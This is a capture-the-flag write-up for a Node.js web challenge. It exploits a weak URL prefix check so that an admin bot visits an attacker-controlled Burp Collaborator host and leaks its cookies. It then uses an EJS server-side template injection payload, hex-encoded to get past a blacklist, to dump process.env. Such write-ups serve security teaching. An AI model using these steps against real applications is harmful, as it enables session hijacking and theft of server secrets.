

## This writeup is written by 00xCanelo (**Mont5ab El2hwa**)

---

This Challenge have alot of files so will view and discuss about the vuln parts only  
and the machineip is `206.81.17.21`  
So Lets fire it up 🚀  

After analysing all the files there was something interesting in the `report.js` line 19 **if function**:

```jsx
const validHttpPrefix = `http://${process.env.URL}/`;
const validPrefix = process.env.URL
if (url.startsWith(validHttpPrefix) || url.startsWith(validPrefix)) {
        // The Rest of the code 
    }
   
```

in this if function it accepts 

```jsx
http://machineip/ ==> accepted 
http://machineip.evil.com ==> not accepted 
machineip ==> accepted
machineip.evil.com ==> accepted
```

so we can simply step  the burp collap and in the report page add this url

```jsx
httpmachineip.burpcollab.com
```

the bot will still view our collab and we can get the admin cookies


Use the admin token and login

---

After login as admin redirect to /admin 


in [admin.](http://admin.sj)js you have this part 

```jsx
router.post("/admin/update", authenticateToken, is_admin, async (req, res) => {
  const { html } = req.body;
  ...
  const tempTemplate = html;
  
  const ejs = require('ejs');
  
  try {
    const result = ejs.render(tempTemplate, { 
      user: req.user.username,
    });
   
```

no sanitization on the `req.user.username` and this is an ejs we simply place or SSTI injection code here

but also have a problem that env is from the blacklisted. but luckly with simply hex encoding to the chars we can easily access it

```jsx
\x65 => e
user[4] => "admin" we will take 5 chars "n"
\x76 => v 

\x65+user[4]+\x76 => "env"
```

in NodeJs we have `process` which is a global object that can access env and these stuff but first we have to Stringify the input

```jsx
JSON.stringify("\x65" + user[4] + "\x76") 
```

This will output `"env"`  now we only have the last part is to make it in process

```jsx
JSON.stringify(process["\x65" + user[4] + "\x76"])
```

finally add our EJS tags

```jsx
<%= JSON.stringify(process["\x65" + user[4] + "\x76"]) %>
```

And you get the flag

